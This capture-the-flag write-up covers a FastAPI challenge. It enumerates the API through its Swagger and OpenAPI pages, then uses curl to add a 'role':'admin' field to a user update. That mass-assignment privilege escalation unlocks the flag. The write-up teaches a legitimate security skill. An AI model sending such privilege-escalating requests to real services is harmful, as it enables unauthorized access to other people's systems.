 # Challenge description

Made my verty first API!

However I have to still integrate it with a frontend so can't do much at this point lol.
just for jumping from one place to another. Can you do that?

# Soluce

It's a simple FastAPI API, so we try to do a GET on /docs to see the documentation.

```html
HTTP/1.1 200 OK
date: Sun, 23 Feb 2025 09:32:04 GMT
server: uvicorn
content-length: 936
content-type: text/html; charset=utf-8


    <!DOCTYPE html>
    <html>
    <head>
    <link type="text/css" rel="stylesheet" href="https://cdn.jsdelivr.net/npm/swagger-ui-dist@5/swagger-ui.css">
    <link rel="shortcut icon" href="https://fastapi.tiangolo.com/img/favicon.png">
    <title>SuperFastAPI - Swagger UI</title>
    </head>
    <body>
    <div id="swagger-ui">
    </div>
    <script src="https://cdn.jsdelivr.net/npm/swagger-ui-dist@5/swagger-ui-bundle.js"></script>
    <!-- SwaggerUIBundle is now available on the page -->
    <script>
    const ui = SwaggerUIBundle({
        url: '/openapi.json',
    "dom_id": "#swagger-ui",
"layout": "BaseLayout",
"deepLinking": true,
"showExtensions": true,
"showCommonExtensions": true,
oauth2RedirectUrl: window.location.origin + '/docs/oauth2-redirect',
    presets: [
        SwaggerUIBundle.presets.apis,
        SwaggerUIBundle.SwaggerUIStandalonePreset
        ],
    })
    </script>
    </body>
    </html>
```

It's a Swagger UI, so we can try a GET on /openapi.json to see the API documentation.

```json
HTTP/1.1 200 OK
date: Sun, 23 Feb 2025 09:32:48 GMT
server: uvicorn
content-length: 3166
content-type: application/json

{"openapi":"3.1.0","info":{"title":"SuperFastAPI","description":"Mt first API :)","version":"1.0.0"},"paths":{"/":{"get":{"summary":"Root","operationId":"root__get","responses":{"200":{"description":"Successful Response","content":{"application/json":{"schema":{}}}}}}},"/get/{username}":{"get":{"summary":"Get User","operationId":"get_user_get__username__get","parameters":[{"name":"username","in":"path","required":true,"schema":{"type":"string","title":"Username"}}],"responses":{"200":{"description":"Successful Response","content":{"application/json":{"schema":{}}}},"422":{"description":"Validation Error","content":{"application/json":{"schema":{"$ref":"#/components/schemas/HTTPValidationError"}}}}}}},"/create/{username}":{"post":{"summary":"Create User","operationId":"create_user_create__username__post","parameters":[{"name":"username","in":"path","required":true,"schema":{"type":"string","title":"Username"}}],"requestBody":{"required":true,"content":{"application/json":{"schema":{"$ref":"#/components/schemas/UserCreate"}}}},"responses":{"200":{"description":"Successful Response","content":{"application/json":{"schema":{}}}},"422":{"description":"Validation Error","content":{"application/json":{"schema":{"$ref":"#/components/schemas/HTTPValidationError"}}}}}}},"/update/{username}":{"put":{"summary":"Update User","operationId":"update_user_update__username__put","parameters":[{"name":"username","in":"path","required":true,"schema":{"type":"string","title":"Username"}}],"requestBody":{"required":true,"content":{"application/json":{"schema":{"type":"object","title":"User Data"},"example":{"fname":"John","lname":"Doe","email":"john.doe@example.com","gender":"male"}}}},"responses":{"200":{"description":"Successful Response","content":{"application/json":{"schema":{}}}},"422":{"description":"Validation Error","content":{"application/json":{"schema":{"$ref":"#/components/schemas/HTTPValidationError"}}}}}}},"/flag/{username}":{"get":{"summary":"Get Flag","operationId":"get_flag_flag__username__get","parameters":[{"name":"username","in":"path","required":true,"schema":{"type":"string","title":"Username"}}],"responses":{"200":{"description":"Successful Response","content":{"application/json":{"schema":{}}}},"422":{"description":"Validation Error","content":{"application/json":{"schema":{"$ref":"#/components/schemas/HTTPValidationError"}}}}}}}},"components":{"schemas":{"HTTPValidationError":{"properties":{"detail":{"items":{"$ref":"#/components/schemas/ValidationError"},"type":"array","title":"Detail"}},"type":"object","title":"HTTPValidationError"},"UserCreate":{"properties":{"fname":{"type":"string","title":"Fname"},"lname":{"type":"string","title":"Lname"},"email":{"type":"string","title":"Email"},"gender":{"type":"string","title":"Gender"}},"type":"object","required":["fname","lname","email","gender"],"title":"UserCreate"},"ValidationError":{"properties":{"loc":{"items":{"anyOf":[{"type":"string"},{"type":"integer"}]},"type":"array","title":"Location"},"msg":{"type":"string","title":"Message"},"type":{"type":"string","title":"Error Type"}},"type":"object","required":["loc","msg","type"],"title":"ValidationError"}}}}
```

We can see that there is a /flag/{username} endpoint. We can try to do a GET on it with a username. With a random user, it say that the user doesn't exist. So let try to create a user with the /create/{username} endpoint. 

```bash
curl -X POST http://chall.2025.ctfcompetition.com/create/admin -H "Content-Type: application/json" -d '{"fname":"admin","lname":"admin","email":"admin", gender:"admin"}'
```

Now we can try to do a GET on the /flag/{username} endpoint with the admin user. It reply that the user is not an admin user.

Now we can try to edit the user with the /update/{username} endpoint. We can try

```bash
curl -X PUT http://chall.2025.ctfcompetition.com/update/admin -H "Content-Type: application/json" -d '{"fname":"admin","lname":"admin", "email":"admin", "gender":"admin", "role":"admin"}'
```

Now we can try to do a GET on the /flag/{username} endpoint with the admin user. It reply the flag.
